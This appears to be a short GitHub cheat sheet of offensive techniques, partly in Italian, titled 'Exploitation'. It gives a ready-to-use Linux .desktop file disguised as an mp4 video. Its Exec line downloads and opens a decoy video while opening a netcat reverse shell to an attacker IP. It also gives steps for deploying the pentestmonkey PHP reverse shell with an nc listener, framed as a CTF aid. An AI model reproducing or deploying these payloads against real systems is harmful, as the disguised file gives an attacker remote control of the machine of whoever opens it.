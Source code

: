 # Exploitation

### Reverse shell with an mp4 file (only in linux mint?)
> whatch [this](https://youtu.be/ZlfloTpLGT0?list=PL0fOAKA0mBdspB0x8BhMegc0ZoEwQpq32) video or read [this](https://null-byte.wonderhowto.com/how-to/pop-reverse-shell-with-video-file-by-exploiting-popular-linux-file-managers-0196078/) article

1. Create a file named `name.desktop`
2. write in there these lines:
   ```
        [Desktop Entry]
        Encoding=UTF-8
        Name=fake_video.mp4
        Exec=/usr/bin/wget 'http://192.168.1.XX/real_video.mp4' -O /tmp/real_video.mp4; /usr/bin/xdg-open /tmp/real_video.mp4; /usr/bin/mkfifo /tmp/f; /bin/nc 192.168.1.XX 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1 &
        Terminal=false
        Type=Application
        Icon=video-x-generic
   ```
3. change the first ip addr with **your local server** ip addr
4. change the second ip addr with **your local server** ip addr

### Reverse shell php (Usefull in web CTFs)
1. Download the file [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

2. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to [ilmioip](https://www.mio-ip.it/) in the browser of your device). 

3. We're now going to listen to incoming connections using netcat. Run the following command: `nc -lvnp 1234`

4. Search the page to load and execute your payload

> As you can see you will open a local server on your computer on port 1234, from here, using ncat you will interact with the target host shell

> Per mettere online il server locale ci si può appoggiare ad ngrok
